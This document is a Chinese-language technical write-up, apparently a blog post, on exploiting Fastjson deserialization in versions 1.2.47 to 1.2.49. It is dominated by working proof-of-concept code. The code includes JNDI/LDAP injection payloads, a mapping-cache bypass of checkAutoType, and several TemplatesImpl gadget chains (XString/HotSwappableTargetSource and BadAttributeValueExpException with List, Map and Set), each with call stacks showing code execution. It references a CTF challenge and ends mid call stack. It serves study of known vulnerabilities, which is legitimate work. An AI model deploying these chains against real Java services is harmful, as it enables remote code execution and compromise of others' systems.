```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = 
                "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +
                "\"properties\":{\"data_source\":\"ldap://127.0.0.1:1389/Eval\"}}";

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

调用栈

```java
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1017)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at org.apache.ibatis.datasource.jndi.JndiDataSourceFactory.setProperties(JndiDataSourceFactory.java:55)
at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_JndiDataSourceFactory.deserialze(Unknown Source:-1)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:267)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:384)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1356)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1322)
at com.alibaba.fastjson.JSON.parse(JSON.java:152)
at com.alibaba.fastjson.JSON.parse(JSON.java:162)
at com.alibaba.fastjson.JSON.parse(JSON.java:215)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:219)
at org.fastjson.JdbcRowSetImplPOC.main(JdbcRowSetImplPOC.java:14)
```

## 1.2.47

最强Bypass来也0.o，不需要开启 AutoType，利用 Fastjson 自带的缓存机制将恶意类加载到`Mapping`中，从而绕过`checkAutoType`检测。

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    } else if (typeName.length() < 128 && typeName.length() >= 3) {
        String className = typeName.replace('$', '.');
        Class<?> clazz = null;
        long BASIC = -3750763034362895579L;
        long PRIME = 1099511628211L;
        long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;
        if (h1 == -5808493101479473382L) {
            throw new JSONException("autoType is not support. " + typeName);
        } else if ((h1 ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
            throw new JSONException("autoType is not support. " + typeName);
        } else {
            long h3 = (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L ^ (long)className.charAt(2)) * 1099511628211L;
            if (this.autoTypeSupport || expectClass != null) {
                long hash = h3;

                for(int i = 3; i < className.length(); ++i) {
                    hash ^= (long)className.charAt(i);
                    hash *= 1099511628211L;
                    if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        if (clazz != null) {
                            return clazz;
                        }
                    }

                    if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
            }

            if (clazz == null) {
                clazz = TypeUtils.getClassFromMapping(typeName);
            }

            if (clazz == null) {
                clazz = this.deserializers.findClass(typeName);
            }

            if (clazz != null) {
                if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                } else {
                    return clazz;
                }
            } else {
                if (!this.autoTypeSupport) {
                    long hash = h3;

                    for(int i = 3; i < className.length(); ++i) {
                        char c = className.charAt(i);
                        hash ^= (long)c;
                        hash *= 1099511628211L;
                        if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }

                        if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                            if (clazz == null) {
                                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                            }

                            if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                            }

                            return clazz;
                        }
                    }
                }

                if (clazz == null) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                }

                if (clazz != null) {
                    if (TypeUtils.getAnnotation(clazz, JSONType.class) != null) {
                        return clazz;
                    }

                    if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }

                    if (expectClass != null) {
                        if (expectClass.isAssignableFrom(clazz)) {
                            return clazz;
                        }

                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                    if (beanInfo.creatorConstructor != null && this.autoTypeSupport) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }

                int mask = Feature.SupportAutoType.mask;
                boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
                if (!autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                } else {
                    return clazz;
                }
            }
        }
    } else {
        throw new JSONException("autoType is not support. " + typeName);
    }
}
```



主要是这块，从 mapping 缓存中加载类，Fastjson 的内置反序列化器缓存，当有缓存之后，若调用方指定了 `expectClass`，需确保缓存中的类是它的子类，而`HashMap` 是 Fastjson 的基础容器类，跳过校验。跟进一下 getClassFromMapping

```java
public static Class<?> getClassFromMapping(String className) {
    return (Class)mappings.get(className);
}
```

所以需要找如何往 mapping 里面缓存类，查找`mappings.put`，发现 addBaseClassMappings 和 loadClass，由于 addBaseClassMappings 为无参方法，所以不用看了，loadClass 代码也不用看完，只需要看缓存部分

```java
else {
        try {
            if (classLoader != null) {
                clazz = classLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }

                return clazz;
            }
        } catch (Throwable e) {
            e.printStackTrace();
        }

        try {
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if (contextClassLoader != null && contextClassLoader != classLoader) {
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }

                return clazz;
            }
        } catch (Throwable var6) {
        }

        try {
            clazz = Class.forName(className);
            mappings.put(className, clazz);
            return clazz;
        } catch (Throwable var5) {
            return clazz;
        }
```

cache 默认为 true，所以一定是能够成功的，但是现在要知道参数是怎么写的，在`MiscCodec#deserialze`中

```java
if (clazz == Class.class) {
        return (T)TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
    } 
```

会这样去触发 loadClass ，往上看到

```java
if (!"val".equals(lexer.stringVal())) {
        throw new JSONException("syntax error");
    }
```

会去匹配 val 这个字符串 

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        String payload = "{" +
                "    \"a\": {" +
                "        \"@type\": \"java.lang.Class\"," +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"" +
                "    }" + 
                "}";

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```



成功存入

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        String payload = "{" +
                "    \"a\": {" +
                "        \"@type\": \"java.lang.Class\"," +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"" +
                "    }," +
                "    \"b\": {" +
                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\"," +
                "        \"dataSourceName\": \"ldap://127.0.0.1:1389/#Eval\"," +
                "        \"autoCommit\": true" +
                "    }" +
                "}";

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

调用栈

```java
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1017)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:624)
at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:164)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:124)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:1078)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseRest(JavaBeanDeserializer.java:1283)
at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_JdbcRowSetImpl.deserialze(Unknown Source:-1)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:267)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:384)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:544)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1356)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1322)
at com.alibaba.fastjson.JSON.parse(JSON.java:152)
at com.alibaba.fastjson.JSON.parse(JSON.java:162)
at com.alibaba.fastjson.JSON.parse(JSON.java:215)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:219)
at org.fastjson.JdbcRowSetImplPOC.main(JdbcRowSetImplPOC.java:20)
```

## 1.2.48\49 gadget--toString 到 getter 

### 1.2.48 Xstring

当存在反序列化漏洞并以 toString 为入口时，通过Fastjson的`com.alibaba.fastjson.JSONObject.toString`方法可以调用任意类的 getter 方法，但是还是要像ROME反序列化里一样通过 HotSwappableTargetSource 来串起来

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.47</fastjson.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <spring.version>5.3.23</spring.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>${spring.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>${spring.version}</version>
        </dependency>
    </dependencies>
</project>
```

比如 [西湖论剑2022] easy_api，poc如下

```java
package org.fastjson;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import org.springframework.aop.target.HotSwappableTargetSource;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class toStringPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        JSONObject jo = new JSONObject();
        jo.put("1",templates);

        XString xString = new XString("baozongwi");

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(jo);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(xString);

        Map innerMap = new HashMap();
        innerMap.put(h1,h1);
        innerMap.put(h2,h2);

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode()});

        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈如下

```java
at org.Base.Eval.<clinit>(Eval.java:14)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:270)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:44)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:281)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:863)
at com.alibaba.fastjson.JSON.toString(JSON.java:857)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
at java.util.HashMap.putVal(HashMap.java:634)
at java.util.HashMap.readObject(HashMap.java:1397)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.fastjson.toStringPoc.unserialize(toStringPoc.java:55)
at org.fastjson.toStringPoc.main(toStringPoc.java:36)
```

这里可能有很多方法都能跑，但是因为 fastjson 依赖，我只写这一种。

### 1.2.49

对于1.2.49，就不能成功使用了，不过在序列化协议中的学习我们知道一件事，就是 reference 引用对象，而序列化有其独特的缓存机制，可以利用这点进行绕过

Java序列化会对每个对象分配唯一`handle`，如果是首次出现，完整反序列化并存入`HandleTable`缓存，重复引用的话，直接返回缓存对象，不再执行`readObject`（反序列化）

这里使用 BadAttributeValueExpException + List

```java
package org.fastjson;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.List;

public class toStringPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        JSONObject jo = new JSONObject();
        jo.put("1",templates);

        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute,"val",jo);

        List arrayList = new ArrayList();
        arrayList.add(templates);
        arrayList.add(badAttribute);
        
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode()});

        byte[] data=serialize(arrayList);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈

```java
at org.Base.Eval.<clinit>(Eval.java:14)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:270)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:44)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:281)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:863)
at com.alibaba.fastjson.JSON.toString(JSON.java:857)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.ArrayList.readObject(ArrayList.java:791)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.fastjson.toStringPoc.unserialize(toStringPoc.java:52)
at org.fastjson.toStringPoc.main(toStringPoc.java:33)
```

BadAttributeValueExpException + Map

```java
package org.fastjson;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class toStringPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        JSONObject jo = new JSONObject();
        jo.put("1",templates);

        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute,"val",jo);

        Map innerMap = new HashMap();
        innerMap.put(templates,badAttribute);

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode()});

        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈

```java
at org.Base.Eval.<clinit>(Eval.java:14)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:270)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:44)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:281)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:863)
at com.alibaba.fastjson.JSON.toString(JSON.java:857)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.HashMap.readObject(HashMap.java:1396)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.fastjson.toStringPoc.unserialize(toStringPoc.java:51)
at org.fastjson.toStringPoc.main(toStringPoc.java:32)
```

BadAttributeValueExpException + Set

```java
package org.fastjson;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.LinkedHashSet;
import java.util.Set;

public class toStringPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        JSONObject jo = new JSONObject();
        jo.put("1",templates);

        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute,"val",jo);

        Set set = new LinkedHashSet();
        set.add(templates);
        set.add(badAttribute);

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode()});

        byte[] data=serialize(set);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈

```java
at org.Base.Eval.<clinit>(Eval.java:14)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at com.alibaba.fastjson.serializer.ASMSerializer_1_TemplatesImpl.write(Unknown Source:-1)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:270)
at com.alibaba.fastjson.serializer.MapSerializer.write(MapSerializer.java:44)
at com.alibaba.fastjson.serializer.JSONSerializer.write(JSONSerializer.java:281)
at com.alibaba.fastjson.JSON.toJSONString(JSON.java:863)
at com.alibaba.fastjson.JSON.toString(JSON.java:857)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.HashSet.readObject(HashSet.java:333)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
